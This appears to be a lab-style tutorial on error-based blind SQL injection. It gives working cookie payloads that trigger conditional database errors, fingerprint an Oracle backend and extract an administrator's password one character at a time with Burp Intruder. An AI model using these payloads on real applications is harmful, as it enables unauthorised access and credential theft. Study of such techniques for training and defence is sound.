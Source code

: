 # Error-based SQL injection

**Exploiting blind SQL injection by triggering conditional errors**

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

**You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:**

```
TrackingId=xyz'||(SELECT '')||'
```

In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:

```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

Depending the type of database we are dealing with, we need to use deferent query to check for valid table in the database:

- Non oracle

```
TrackingID=xyz' AND (SELECT 'a' FROM your_table LIMIT 1)='a
```

- Oracle

```
TrackingID=xyz' AND (SELECT 'a' FROM your_table WHERE ROWNUM=1)='a
```

**You can also exploit this behavior to test conditions. First, submit the following query:**

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that an error message is received.

Now change it to:

```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

**You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:**

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:**

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Send a series of follow-up values to test different password lengths.

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

and so on...

**After determining the length of the password, the next step is to test the character at each position to determine its value using Burp Intruder**

Go to Burp Intruder and change the value of the cookie to:

```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Place payload position markers around the final **a** character in the cookie value

Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally.

Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value.